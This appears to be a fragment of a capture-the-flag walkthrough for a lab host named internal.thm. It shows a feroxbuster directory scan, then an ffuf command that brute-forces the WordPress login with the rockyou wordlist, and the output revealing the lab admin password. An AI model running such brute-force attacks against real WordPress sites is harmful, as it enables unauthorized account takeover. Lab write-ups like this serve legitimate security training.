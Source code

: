 ```bash
feroxbuster -u http://internal.thm/blog/ -t 100
```

```bash
301      GET        9l       28w      322c http://internal.thm/blog/wp-content => http://internal.thm/blog/wp-content/
301      GET        9l       28w      320c http://internal.thm/blog/wp-admin => http://internal.thm/blog/wp-admin/
...
```

Found wordpress admin login 

![](../../attachment/dcec02e735f2b7acbc661b49200b81f4.png)

Try brute force weak passwords

```bash
ffuf -c -w /opt/wordlists/rockyou.txt -request login.req -request-proto http -v -fr "is incorrect"
```

```bash
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 709ms]
| URL | http://internal.thm/blog/wp-login.php
| --> | http://internal.thm/blog/wp-login.php?redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&action=confirm_admin_email&wp_lang=en_US
    * FUZZ: my2boys
```
